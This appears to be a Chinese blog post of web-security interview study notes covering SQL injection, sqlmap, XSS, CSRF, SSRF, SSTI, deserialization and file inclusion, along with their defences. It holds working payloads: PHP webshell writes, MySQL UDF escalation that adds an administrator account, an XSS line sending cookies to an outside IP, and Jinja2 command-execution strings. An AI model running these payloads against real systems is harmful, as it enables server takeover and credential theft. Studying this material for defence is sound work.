

之前实习面试时准备的资料，现在论文和工作都差不多定了，想起来可以分享一下，其中很多资料源于网络，也包含了部分自己的理解，现在回馈于网络，希望对准备面试的小伙伴们或许能起到一点帮助
OWASP TOP 10
- 注入
- 失效的身份认证（密码转储、字典攻击、钓鱼或社会工程之后发现失效的身份认证）
- 敏感数据泄漏（攻击者不是直接攻击，而是在传输过程中或从客户端窃取密钥、中间人攻击或者从服务器端窃取明文数据）
- XML外部实体（XXE）
- 失效的访问控制（比如越权 CORS配置错误导致允许未授权的API访问）
- 安全配置错误
- 跨站脚本（XSS）
- 不安全的反序列化
- 使用含有已知漏洞的组件
- 不足的日志记录和监控
SQL注入
本质：用户输入的数据当作代码执行（类似于xss绕过就是更多的识别为控制字符，而相对应的编解码就是将控制字符识别为文本字符）
注入的两个攻击条件：
用户能够控制输入
原本程序要执行的代码，拼接了用户输入的数据
常见类型：数字型、字符型 | 报错回显、盲注（布尔盲注、时间盲注）
mysql5.0以下没有information_schema,只能手工枚举爆破（二分法思想）
SQL注入一般步骤：寻找注入点—后台数据库（Mysql、SQL Server、PostgreSQL）、类型判断— 字段数目判断
攻击技巧
常见的攻击技巧
- 盲注、宽字节、二次注入等，之后分点叙述
读写文件的技巧
show variables like "%secure%"; 关注secure_file_priv当参数
secure_file_priv为空时，对导入导出无限制当值为一个指定的目录时，只能向指定的目录导入导出
当值被设置为NULL时，禁止导入导出功能
load_file
into dumpfile、into outfile: select hex(load_file(‘/etc/passwd’)) into dum-file ‘/tmp/potatos’;
Load data infield ‘/tmp/potatos’ into table potatoes;
命令执行
读写文件导入webshell
利用用户自定义函数UDF
- 利用phpmyadmin写入日志文件导入webshell
利用xp_cmdshell攻击存储过程
编码问题：宽字节注入GBK编码bf
SQL column Truncation 字段截断
SQL盲注
- length
- mid(str,pos,len)截取字符串
- substr(str,pos,len)截取字符串 同substring
- ascii(str)返回字符串最左面字符的ascii值
- ord(str)将字符或布尔类型转换为ascii码
- if(a,b,c)判断a，a为true，返回b，否则返回c
- benchmark(count,expr) 用于测试函数性能，可以让同一个函数执行若干次，使得返回的时间比平时长
- 不同数据库中，都有着类似于benchmark的函数如：postgresql：pg_sleep() mssql:wait delay ‘0:0:5’
基于布尔的盲注：
1 | and ascii(substr((select database()),1,1))>64 /*判断数据库名的第一个字符的ascii值是否大于64*/ |
报错注入payload：https://xz.aliyun.com/t/253
XPath语法错误 mysql>5.1.5
id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))extractvalue(xml_document, XPath_String)报错原理：第二个参数要求Xpath格式，而我们的输入不是，故报错
id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))UPDATEXML (XML_document, XPath_string, new_value);
第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。
第三个参数：new_value，String格式，替换查找到的符合条件的数据
BIGINT等数据类型溢出 mysql<5.5.53生效
- Exp(~710)
concat+rand()+group_by()导致主键重复
count()和group by在遇到rand()产生的重复值时报错
基于时间的盲注：
1 | id=1 union select if(SUBSTRING(user(),1,4)='root',sleep(4),1),null,null /*提取用户名前四个字符做判断，正确就延迟4秒，错误返回1*/ |
宽字节注入
- 字符型注入（参数被单引号包围）、引号被转义（如通过后台过滤函数addslashes或者当magic_quotes_gpc开启时）
- 编码为GBK
0xbf27和0xbf5c均会解析为一个双字节字符（5c为\ 27 ‘ ）
解决方法：数据库、操作系统、Web应用统一设置为UTF-8
二次注入
注入点必须为数字，但可以通过hex编码绕过（php7安全函数中 会将输入转换为字符串 编码绕过已经不行了）
单引号输入判断为字符型注入or数字型注入 通过1’ or 1=1#等进行逻辑判断
若为二次注入，需要判断注入点
注入点与注入类型确定后，通过order by判读字段数
拖库：
1
2
3
41' and 1=2 union select database()#
1' and 1=2 union select group_concat(table_name) from information_schema.tables where table_schema=database()#
1' and 1=2 union select group_concat(column_name) from information_schema.columns where table_name='py_flag'
1' and 1=2 union select tsctf_fla9 from py_flag# TSCTF{Simple_Sql_f0r_Y0u}
绕过方式
各种重要符号如 空格、逗号、引号、等号、大小与号；各种关键字、函数
- substr逗号绕过
- limit逗号绕过 如limit 1,2
- 引号绕过（2种）
- 空格绕过（至少说出三种）
- 等号绕过（至少说出三种 ‘像’ ）
- 大小与号绕过 （范围表示 表示比较说出4种）
- 过滤函数绕过
相关函数：
- group_concat(str1, str2…)将多个字符串连接，如果其中有一个为NULL，返回为NULL
- @@为系统变量，@为局部变量
逗号绕过：
字段间逗号：
union select * from ((select 1)A join (select 2)B join (select 3)C）; 字段间的逗号，利用join绕过 @@datadir为查看创建数据库的目录
substr提取子串逗号：
- from pos for Len: select substr(‘aaa’ from 1 for 3); 利用from pos for len替换提取子串中的逗号
- like子句：
select ascii(substr(user(),1,1))=114; --> select user() like "ro%";
limit中逗号：
- offset关键字，limit 1,2 (初始偏移量为0)—> limit 1 offset 2
引号绕过
- select column_name from information_schema.tables where table_name=0x6D336C6F6E
- 宽字节：
GBK %bf%27
空格绕过：
- /**/
--# - 回车
%0a - Tap键
- 反引号 select`*`from`user`;
- 两个空格
- /**/
等号绕过：
- like绕过 或者rlike
- regexp正则表达式匹配绕过
- 大小与号绕过，不大于不小于不就是等于吗
- <>等价于!= 所以!(id<>1)
大小与号绕过
between a and b
1
select * from users where id=1 and substr(username,1,1) between 'a' and 'd';
Greatest least 返回最大值、最小值，参数只有一个的话就是返回那个字符的ascii
1
select greatest(ascii(substr('m3lon' from 1 for 1)),1);
strcmp 相同为0，相反为-1
in关键字
1
select * from users where id=1 and substr(username,1,1) in ('t');
过滤函数绕过：
- sleep —> benchmark(次数,表达式)
- Ascii—>hex()、bin() 替代之后再用对应的进制转string
- Group_concat—>concat_ws
- 取子串的函数：substr、substring、mid、left、right
其他过滤：大小写绕过、特殊编码绕过（十六进制、ascii）、双写关键字、内联注释绕过
SQL提权
利用phpmyadmin getshell https://xz.aliyun.com/t/3283#toc-0
常用方法：select into outfile写入shell
1
2
3Select @@basedir; #爆出绝对路径
show variables like "%general%"; # 利用general log位置猜测路径
select '<?php eval($_POST[cmd]); ?>' into outfile 'C:/wamp64/www/ma.php';通过日志写shell（secure priv开启，无法直接into outfile）
1
2
3
4
5show variables like "%general%";
set global general_log="ON";
set global general_log_file="C:\\phpStudy\\www\\log.php"; # 一定
SELECT "<?php @eval($_POST['cmd']);?>";
set global general_log = "OFF";
udf提权
参考：https://www.cnblogs.com/litlife/p/9030673.html
Windows: user->system linux: user->root
把本地的udf16进制形式通过我们已经获得的webshell传到目标主机上指定目录如plugin下，从udf.dll中创建相应的函数如sys_eval，在调用这个函数时，mysql账户就转变为system权限：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23# 搜集相关信息，如查看mysql的位数 查看version-compile-os
select version();
select user();
select @@basedir ;
show variables like "%version%";
use mysql;
create table Tmp_udf(udf BLOB); #blob和text都是mysql为了存储大量字符串的数据而设计的类型
insert into Tmp_udf values("hexcode");
select udf from Tmp_udf into dumpfile 'C:\\phpStudy\\MySQL\\lib\\plugin\\udf.dll';
drop table Tmp_udf;
# 或者直接写入hexcode
select unhex("hexcode") into dumpfile "C:\\phpStudy\\MySQL\\lib\\plugin\\udf.dll";
# 创建函数
create function sys_eval returns string soname "udf.dll";
select * from mysql.func;
# 调用函数
select sys_eval("whoami");
select sys_eval("net user ergou 123 /add"); # 心塞 并未创建成功 应该使用cmdshell函数 不过sqlmap的lib_mysqludf_sys.dll库中并没有添加该函数，所以网上那些大佬导入的是哪个库
select sys_eval("net localgroup Administrators ergou /add");提示点：
关于udf库的获取：
路径: sqlmap/udf/mysql/linux/64/lib_mysqludf_sys.so_
github可分析源码：https://github.com/mysqludf/lib_mysqludf_sys
解码：sqlmap下一些自带的二进制文件和shell，为了防止被误杀都经过了异或编码，不能直接使用，使用sqlmap自带的解码函数：
1
2sudo python ./sqlmap/extra/cloak/cloak.py -d -i sqlmap/udf/mysql/linux/64/lib_mysqludf_sys.so_
sudo service mysql restart查看mysql的位数：
主要要看到是version-complie-os是win32 还是 win64
verison-complie-machine: AMD64 CPU位数，我的理解是跟随主机位数的，cmd查看dxdiag可以查看系统系统，不一定主机为64位，mysql就是64位的
udf上传目录：
MySQL<5.0，导出路径随意；
5.0 <= MySQL<5.1，则需要导出至目标服务器的系统目录（如：c:/windows/system32/）
MySQL 5.1以上版本，必须要把udf.dll文件放到MySQL安装目录下的lib\plugin文件夹下才能创建自定义函数。
plugin文件夹创建
一般Lib、Plugin文件夹需要手工建立（可用NTFS ADS流模式突破进而创建文件夹）关于NTFS ADS 点这里
1
2
3
4
5select @@basedir; //查找到mysql的目录
select 'It is dll' into dumpfile 'C:\\phpStudy\\MySQL\\lib::$INDEX_ALLOCATION';
select 'It is dll' into dumpfile 'C:\\phpStudy\\MySQL\\lib\\plugin::$INDEX_ALLOCATION';嘤嘤嘤… win10测试失败！
ubuntu导入lib_mysqludf_sys.so成功却系统函数执行不成功的问题：https://github.com/mysqludf/lib_mysqludf_sys/issues/4: apparmor 某防护机制的保护作用
1
2
3sudo aa-stutas
sudo ln -s /etc/apparmor.d/usr.sbin.mysqld /etc/apparmor.d/disable/
sudo apparmor_parser -R /etc/apparmor.d/usr.sbin.mysqld
mof提权(提权条件苛刻)
- windows 03及以下版本
- mysql启动身份具有权限去读写c:/windows/system32/wbem/mof目录
- secure-file-priv参数不为null
其他数据库提权
参考：
防御方式
数据代码分离原则。（即参数是参数，语句是语句）
- 最佳方法：预编译语句，绑定变量。使用预编译的SQL语句（prepare），SQL的语意不会变化，攻击者无法改变SQL的结构，即使攻击者插入了类似于’or ‘1’=’1的字符串，也只会将此字符串作为username查询（execute）。
- 从数据类型角度来防御：限制数据类型，并统一数据格式。
- 从开发者角度来防御：开发时尽量用安全函数代替不安全函数，编写安全代码。危险函数，常见的执行命令函数，动态访问函数，如C语言中的system(),PHP的eval()，JSP的include()导致的代码越权执行，都是注入。
- 从数据库管理者角度来防御：最小权限原则，避免root,dbowner等高权限用户直接连接数据库。
需要注意的是，在MySQL 5.7及更高版本中，密码列并不存在，它被更改为“authentication_string”。
select * from mysql.user where user=substring_index(user(),‘@’,1)\G;
Mysql 7.2中的改进

sqlmap
tamper 入口函数：
常用tamper：
- base64encode.py
- Nonrecursivereplace.py 双写绕过
- randomcase.py
- Space2comment.py、Space2plus.py
- Randomcomments.py 用注释符分割sql关键字
sqlmap5.7增加了处理json数据的函数，而这些函数也存在报错型注入，例如json_replace，就可以加入sqlmap，让sqlmap支持对json数据的注入 （需要sqlmap -r）
常用参数
- 目标参数：-r、-u、-g
- request参数：
--cookie --user-agent --headers --proxy - 性能参数： —threads
- 注入参数：
-p --dbms --os —tamper - 盲注参数：
--level --risk—string 代码中有注释： level>=3时，会测试user-agent,referer，level>=5时，会测试HOST，level>=2时，会测试cookie - 技术参数：
--technique6种：E报错、T时间盲注、B布尔盲注、（I）Inline内联查询、S可多语句查询（stacked）、union查询 - 枚举参数：
-b --current-user --current-db --dbs --tables --columns --dump - 操作系统参数：
--os-pwn --os-shell --os-cmd - 工作参数：
--flush-session
源码分析：
框架分析
- 核心模块：lib、extra、plugins
- xml：检测载荷
- txt：爆破字典
软件执行流程：
- 设置：
检测过程：防火墙检测、（网络）稳定性检测、参数是否为动态参数检测、SQL注入检测
浏览器安全
同源策略
跨域
DOM、Cookie、XMLHttpRequest（Ajax异步网络加载的主要方法）受浏览器同源策略的限制，那很多业务需要跨域，如何通过javascript实现跨域呢？
同域代理：Ajax向同域下的服务器发送请求，同时携带真实请求地址及参数
'/proxy?url=http://www.sina.com.cn'，服务器接受请求后根据地址及参数转发请求，服务器可以直接模拟客户端发送请求，无需浏览器，也就没有同源策略的限制，jsonp：利用
<script>标签可以跨域加载资源，实际上就是直接通过script标签请求json数据，服务器返回一个回调函数渲染数据显示在html页面上。（所以jsonp的跨域数据交互也只能用做get请求）postMessage：跨窗口传递消息
otherWindow.postMessage(message, targetOrigin, [transfer]);
CORS：前两种解决方法其实并没有解决跨域问题，只是绕开同源策略而另辟蹊径实现的跨域数据交互，可以说是技术不成熟时的临时解决方案；随着html5的到来，出现了新的跨域策略，CORS跨域资源共享，主要通过一系列以Access-Control-Allow-Origin为主的HTTP头部完成，分为简单请求和非简单请求，感觉一般情况下还是简单请求，非简单请求涉及PUT、DELETE以及Content-type：application/json等，简单请求的流程：
有一点需要强调：ajax在发出请求时，请求是能够正常发送的，服务器也会正常响应的，只是浏览器对于服务器响应的数据拒绝接收，应用CORS时，请求头部会添加Origin字段，服务器需要添加一个Access-Control-Allow-Origin响应头指明可以共享数据的域。复杂请求需要先发送OPTIONS预检请求，如果预检不通过，就不会发送正式请求
XSS
- 本质：HTML注入（将数据解析为html代码或js代码执行）
- 三种类型：
- 反射型：用户输入直接反射给浏览器（不存储到数据库）
- 存储型：用户输入— 数据库— 浏览器渲染
- DOM型：通过js（如document.write、xxx.innerHTML等）添加DOM节点— 浏览器渲染
XSS危害
- Cookie劫持 — HttpOnly标识（禁止js读取cookie）— XST（利用TRACE调试：会将请求头作为Response Body返回）
- 控制用户的浏览器：
- GET请求：如插入一张图片，图片链接为删除某篇文章的url，攻击者只需要让博主执行这段js代码，就可以删除文章（类似于CSRF）
- POST请求：通过js模拟浏览器发送请求，发送请求的方式有两种：form和XMLHttpRequest
- 写html代码构造form表单，自动提交表单 — 防御： 验证码
- 通过XMLHttpRequest post方法
- XSS钓鱼：修改密码 — 需要输入old password — 构造伪登录的页面
- 识别用户的浏览器、识别用户安装的软件（挂马攻击）
- BeEF：可以将被害人的主机变成伪僵尸网络的一部分，窃取内存信息、把受害人重定向恶意链接、开启摄像头等多种类型的攻击
- 终极利用方式：XSS Worm
XSS构造技巧
https://pentesterlab.com/exercises/xss_and_mysql_file/course
防御方式：并未过滤
payload：<script>document.write("<img src='http://123.207.153.65:9999?cookie="+document.cookie+" '/>");</script>
- 转义— GBK编码绕过，转义双引号时
%c1组成一个新的Unicode字符 - 长度限制— 利用事件缩短长度、利用location.hash（没有限制,但url有限制）、利用注释符通过注释中间html代码绕过长度限制
- base标签：攻击者通过base标签设置为自己的vps地址，就劫持了当前页面的相对路径，就可以在自己vps上伪造图片、链接或脚本
- 利用window.name缩短长度如
window.name='document.cookie;alert(name);' - html5一些新标签的使用：
<audio> <vedio>等
XSS防御
分为输入端过滤和输出端过滤，分析产生在输出端，所以关键在输出端
分析XSS的产生在输出端浏览器渲染（MVC中的View层），所以关键在于输出端的过滤。一般模版系统中都对输出变量使用escape处理，即默认html实体编码，
输入检查：类型限制、格式检查、检查的逻辑需放在服务器端，一般过滤或编码
< > ' "; 匹配XSS的攻击特征，开源XSS Filter的实现（匹配是否有<script>、javascript等） 问题：- 无法判断用户数据的输出语境，会产生漏报，如恶意url地址
- 可能会改变用户数据的语义
输出检查：根据变量输出的不同场景，选择合适的编码（道哥：在正确的地方做正确的编码），合适编码的选取关键要根据浏览器的解析顺序
- html代码：标签、属性 — htmlencode
- js代码：script标签、事件 — JavascriptEncode
- url地址：URLEncode，注意URL中的Protocal和Host部分不能编码，否则估计无法识别这是url地址从而调用url解码了— 如果用户能够控制URL，又不能全部进行编码，应该如果过滤呢？这种情况首先检查变量是否以http://开头（协议白名单），保证不会出现伪协议攻击，再对变量进行URLEncode
其他：
- HttpOnly的添加
- DOM型XSS的防御：由于使用js输出DOM节点，所以需要先做JavascriptEncode再根据DOM节点的场景进行合适的编码
- 浏览器端：CSP的设置
浏览器解码
主要是HTML解析、JS解析、URL解析
浏览器在解析HTML文档时无论按照什么顺序，主要有三个过程：HTML解析、JS解析和URL解析，每个解析器负责HTML文档中各自对应部分的解析工作。下面以一篇HTML文档解析来简单的讨论下解析器如何协同工作的。
首先浏览器接收到一个HTML文档时，会触发HTML解析器对HTML文档进行词法解析，这一过程完成HTML解码并创建DOM树，接下来JavaScript解析器会介入对内联脚本进行解析，这一过程完成JS的解码工作，如果浏览器遇到需要URL的上下文环境，这时URL解析器也会介入完成URL的解码工作，URL解析器的解码顺序会根据URL所在位置不同，可能在JavaScript解析器之前或之后解析。
富文本XSS防御
思想：白名单
标签和属性应该使用白名单
事件和一些危险的标签如
<base> <iframe> <script> <form>等应该被禁止- 开源的XSS Filter 如在PHP中，HTMLPutify
- 模版引擎与XSS防御
- Markdown与XSS防御
Java反序列化
漏洞本质：不可信的输入和未检测反序列化对象安全性
反序列化：将对象的状态信息转换为可以存储或传输的字节流形式的过程
反序列化应用场景：
- HTTP：多平台的通信、管理等
- RMI（Remote Method Invocation）：用于实现远程过程调用的api，基于反序列化，默认端口1099
- JMX（Java Management ）：Java平台上为 应用程序、设备、系统等植入管理功能的框架，JMX可以跨越一系列异构操作系统平台、系统体系结构和网络传输协议，灵活的开发无缝集成的系统、网络和服务管理应用。中间件软件 WebLogic 的管理页面就是基于 JMX 开发的，而 JBoss 则整个系统都基于 JMX 构架。
漏洞成因：Java程序使用ObjectInputStream对象的readObject方法将反序列化数据转换为java对象。但当输入的反序列化的数据可被用户控制，那么攻击者即可通过构造恶意输入，让反序列化产生非预期的对象，在此过程中执行构造的任意代码。
POP利用链
Java的反射机制：见Java速成
POC构造：https://p0sec.net/index.php/archives/121/
我的理解：Java反射调用Runtime.getRuntime.exec(command) — trasform函数自动执行 — LazyMap的get基础方法 — getValue — TiedMapEntry的toString — 需要寻找一个类重载readObject且调用toString — BadAttributeValueExpException — 然后传入的形参为私有变量(利用Java反射给私有变量赋值) — 利用ObjectOutputStream的writeObject构造POC
1 | /* |
面向属性编程：从现有运行环境中寻找一系列的代码调用，然后根据需求构成一组连续的调用链，用以控制程序的执行流程。
ROP：寻找当前系统环境或内存环境里已经存在的，具有固定地址且带有返回操作的指令集；用于内存溢出控制指令执行流程
POP：寻找当前环境中已经定义或能动态加载的对象中的属性（函数方法），构成一个调用组合形成一个完整的、具有目的性的操作。用于反序列化过程中控制代码执行流程
漏洞挖掘
黑盒流量分析：
在Java反序列化传送的包中，一般有两种传送方式，在TCP报文中，一般二进制流方式传输，在HTTP报文中，则大多以base64传输。因而在流量中有一些特征：
- TCP：必有aced0005，这个16进制流基本上也意味者java反序列化的开始；
- HTTP：必有rO0AB，其实这就是aced0005的base64编码的结果；
以上意味着存在Java反序列化，可尝试构造payload进行攻击。
黑盒java的RMI：
rmi是java的一种远程对象（类）调用的服务端，默认于1099端口，基予socket通信，该通信实现远程调用完全基于序列化以及反序列化。
白盒代码审计：
观察实现了Serializable接口的类是否存在问题。
观察重写了readObject方法的函数逻辑是否存在问题。
定向功能分析：重点关注数据传输和存储的功能点：数据传输、网络通信、导入模板文件、DB数据库存储、日志格式化存储等业务场景
敏感函数回溯：搜索代码中反序列化函数的调用
1
2
3
4
5
6
7ObjectInputStream.readObject
ObjectInputStream.readUnshared
XMLDecoder.readObject
Yaml.load
XStream.fromXML
ObjectMapper.readValue
JSON.parseObject
观察反序列化时是否重写readObject方法，重写过程中是否有不合理之处，找到反序列化对象输入点后，再考察Class Path是否有包含Apache Common Collections < 3.2.1等危险库
PHP反序列化
反序列化目的是对象的传递，所以如果写示例代码也就是定义一个类（类里可以有各种类型的属性私有、静态、共有等）[这里有一个严重的错误！ps：对象不一定都是类，比如字符串也是对象，不知道php中算不算，但是在自己的理解中对象的概念不应该如此狭隘]，然后生成实体对象，再经过serialize序列化，之后就是传输或存储了。
比较重要的三个魔术方法：
- __sleep: 相当于序列化的预处理，如果存在此方法，serialize调用之前会先调用它，返回应该被序列化的属性（毕竟对象的所有状态不是应该都被序列化的 Java中这种会利用关键字transient）
- __wakeup：反序列化之前会被调用（对象还原前的初始化数据操作），用于准备反序列化的数据（相当于Java中的readObject方法）
- __toString：当对象被当作字符串打印时会返回的内容，由此方法定义
PHP反序列化对象注入
绕过__wakeup函数：CVE-2016-7124漏洞，当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行
payload最好写代码自己生成，比如protected属性前面还会加上\00*\00，private前面还会加类名，自己写很容易出错
Session反序列化对象
漏洞原理：不同的引擎存储方式不同
- php_binary 键名的长度对应的ASCII字符＋键名＋经过serialize() 函数反序列处理的值
- php 键名＋竖线＋经过serialize()函数反序列处理的值
php_serialize serialize()函数反序列处理数组方式
我们先测试一下php和php_serialize的区别，测试代码
1
2
3
4
5
6
ini_set('session.serialize_handler','php_serialize');
//ini_set('session.serialize_handler','php');
session_start();
$_SESSION["test"]=$_GET["t"];输出的结果 php_serialize为t:1:{s:4:”test”;s:4:”1111”;} php的结果为test|s:4:”1111”;
所以我们看到，如果我们的$_SESSION[‘ceshi’]=’’|O:8:”students”:0:{}’;’ 那么当我们用php_serialize存储时候，他会是a:1:{s:5:”测试”;s:20:”|O:8:”students”:0:{}”;} 然后当我们用php进行读取的时候，反序列化的结果会是1
2
3
4
5array(1) {
["a:1:{s:5:"ceshi";s:20:""]=>
object(students)#1 (0) {
}
}
Php内部的session存储机制为php_serialize，会存储文件上传信息，也不管是啥吧，肯定包含文件名，可能内部存储的是这种格式t:1:{s:4:"filename";s:4:"filename_value";}；客户端可以通过POST session.upload.progress.prefix 读取session文件（读取过程中会反序列化），但本地反序列化设置为php，我们将
filename=’|O:5:”OowoO”:1:{s:4:”mdzz”;s:36:”print_r(scandir(dirname(FILE)));”;}’，将会解析为
1 | array(1) { |
O:5:”OowoO”:1:{s:4:”mdzz”;s:88:”print_r(file_get_contents(“/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php”));”;}
漏洞挖掘
- 反序列化的输入点用户可控
- 反序列化类中存在魔术方法
- 魔术方法中存在敏感操作
CSRF漏洞
CSRF本质：重要操作的所有参数都可以被攻击者猜到（攻击者可以构造出重要操作的url）
- 浏览器的Cookie策略，本地cookie的发送及P3P头的推波助澜
- 如何CSRF需要POST请求才能触发：
- 构造form表单，自动提交表单
- 隐藏页面在一个不可见的iframe中，iframe地址指向CSRF构造页面
- CSRF蠕虫
- CSRF防御：
- 验证码：强制用户必须与应用交互，但是不能网站的所有操作都加上验证码，所以只是辅助手段，不能作为主要的手段
- token：防止攻击者可以猜到重要操作的所有参数，就是将参数加密或使用随机数（不可预测性原则的应用），这样攻击者就无法构造出一个完整的URL实施CSRF攻击
- referer校验
- Token的使用原则：
- 随机性
- 保密性：为防止通过referer泄漏，尽量将token放在表单中，将GET请求—>POST以form表单形式提交
- 多个token解决多页面共存问题
- XSS可以模拟客户端浏览器执行任何操作，所以在XSS攻击下，攻击者完全可以在请求页面后读出页面内容的Token，然后再构造一个合法的请求（XSRF)
- Set-cookie: samesite=”Strict/Lax”
jsonp绕过及防御
- 其实这个问题属于 CSRF（ Cross-site request forgery 跨站请求伪造）攻击范畴。当某网站通过 JSONP 的方式来跨域（一般为子域）传递用户认证后的敏感信息时，攻击者可以构造恶意的 JSONP 调用页面，诱导被攻击者访问来达到截取用户敏感信息的目的。
- 场景：攻击者通过诱导某用户访问自己的恶意链接，链接本身会调用用户的敏感信息，回调函数会将请求返回的信息发送至自己的vps，造成敏感信息泄漏
- 很多情况下回调函数会将响应数据处理为html节点添加到页面中，如果没有做合适的编码，就会产生基于DOM的XSS— 解决方法过滤或者严格定义content-type:application/json(直接访问提示文件下载)
- 测试：加入&callback=hehehe，这应该是一个开发习惯，通常开发设计api的时候都会有json和jsonp两种格式，而通常取jsonp的函数名的变量名就是callback。然后变POST为GET
- 防御与绕过：
- 验证referer是否在白名单中— 绕过姿势：
- 过滤（正则）不严谨：通过url的格式绕过 http://www.attack.com/attack.htm?qq.com、qq.com.sh1yan.top等
- 空referer的绕过，比如利用iframe，访问某地址的时候是不带referer的
- 添加随机token，如果存在规律性，可爆破性就很容易绕过
- referer+随机部署token结合，但只要站点出现一个XSS，防御体系就瞬间崩溃
- 验证referer是否在白名单中— 绕过姿势：
- 与CSRF组合，比如jsonp劫持获取token（获取token需要一个跨域的过程），然后利用CSRF，或者造成CSRF蠕虫
SSRF原理及绕过
SSRF：服务器端请求伪造，是一种由攻击者构造由服务器端发起请求的一个漏洞，一般来说，SSRF攻击的目标是外网无法访问的内网系统
漏洞成因：服务器提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制
漏洞利用：
- 对服务器所在内网进行端口扫描、获取服务器的一些banner信息
- 攻击运行在内网或本地的应用程序
- 对内网web进行指纹识别
漏洞场景
能够对外发起网络请求的地方，就可能存在SSRF
ssrf的各种绕过姿势
IP地址进制转换
url解析问题 如@
利用302条转，很神奇的一个域名
使用各种非http的协议如gopher file
DNS重绑定
Gopher 协议可以做很多事情，特别是在 SSRF 中可以发挥很多重要的作用。利用此协议可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET、POST 请求。这无疑极大拓宽了 SSRF 的攻击面。
XXE 协议及利用姿势
有回显：读取本地敏感文件
无回显：带外传输（XXE 其实也是一种 SSRF 的攻击手法）

java：gopher、netdoc、mailto、jar（
jar:http://host/application.jar!/file/within/the/zip）php：phar、data、compress.zlib
危害：
- 内网主机探测
- 内网端口扫描
- 看内网有没有东西读取/proc/net/arp和/etc/host
- 敏感信息泄漏
SSTI Flask/Jinja2
Flask/Jinja2 SSTI产生原因：本身render_template调用.html模版文件渲染本身不会产生问题，即使输入
100也会按字符串输出；当使用render_template_string直接调用字符串来渲染并且使用了request请求上下文.args.get(“key”)等用户可控变量，就会产生SSTI常见poc
适用于python2：
1
2
3
4
5
6
7文件操作：
object.__subclasses__()[40]('/etc/passwd').read()
object.__subclasses__()[40]('/tmp').write('test')
命令执行：
object.__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
object.__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()Python3(没有file，所以用的是open):
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17文件操作
根据__class__是个str类型，根据__mro__(或者__base__)找到object，再由__subclasses__找到object的所有子类，然后调用其中的file属性实现任意文件读取。
{{"".__class__.__bases__[0].__subclasses__()[177].__init__.__globals__.__builtins__[%27open%27](%27/etc/passwd%27).read()}}
命令执行
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__[%27eval%27]("__import__(%27os%27).popen(%27id%27).read()")}}
命令执行：
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
其他：
{{request.environ[‘werkzeug.server.shutdown']()}}
URL重定向场景、绕过、防御
网站接受用户输入的链接，跳转到一个攻击者控制的网站，可能导致跳转过去的用户被精心设置的钓鱼页面骗走自己的个人信息和登录口令。
1 | 1. 用户登录、统一身份认证处，认证完后会跳转 |
绕过姿势：# ？ @ 无协议绕过 检测子串 检测后缀绕过 IP地址绕过 IP地址用八进制十六进制等绕过
防御：
1 | 1. 代码固定跳转地址，不让用户控制变量 |
文件包含姿势及防御
PHP的四个文件包含函数在包含文件时，该文件将作为php代码执行，PHP内核不会在意其文件类型。
利用条件：
- 通过动态变量的引入包含文件
- 该动态变量可控
危害：
本地文件包含LFI
导致目录遍历— 敏感信息泄漏、源码泄漏— 服务器端配置open_basedir(配置的是目录的前缀，如果需要限定一个目录，需要最后加上/)
- 通过编码如%2e%2e%2f等绕过服务器端逻辑漏洞（url编码、二次编码、一些web容器的编码）
绕过姿势：
- 指定前缀，利用../ （../被过滤，各种编码绕过）
- 指定后缀— 截断
- 0字节截断
- 目录最大长度截断（windows 256 linux 4096）
防御：
- 开启open_basedir设置限制PHP能打开文件的目录
- 尽量避免包含动态变量，可以采用枚举的方法
远程文件包含RFI
前提：php.ini：allow_url_include=On（php5.2之后默认为off）; allow_url_fopen=On（默认为On）
ps：allow_url_fopen:默认的封装协议提供用 ftp 和 http 协议来访问远程文件
http://attacker.com/phpshell.txt?/action/m.share.php利用？截断，url中？后面的处理为查询，这也是远程文件包含的常用技巧php<php5.3.4 利用0字节截断
利用姿势
- 结合文件上传：但是需要了解文件上传的目录路径
- php伪协议：php://filter、php://input、data:text/plain 还有zip、phar压缩协议
- 包含日志文件：access.log、error.log默认保存在/var/log/apache2
- proc/self/environ中会保存user-agent头。如果在user-agent中插入php代码，则php代码会被写入到environ中。之后再包含它，即可。（包含/proc/self/environ是更为通用的一种方法，不需要猜测目录，而且用户也能控制它的内容）
文件上传漏洞
- 场景：上传头像图片、邮件或者论坛的附件
- 漏洞：上传web脚本能够被服务器解析
- 上传的文件能够被web容器解析（也就是上传后的目录要是web容器所覆盖的目录）
- 用户能够从web上访问这个文件（想想菜刀连接的url）
- 绕过文件上传检查功能：
- 黑名单后缀；
- %00截断（C、PHP中认为是字符串终止符）
- 用后缀别名
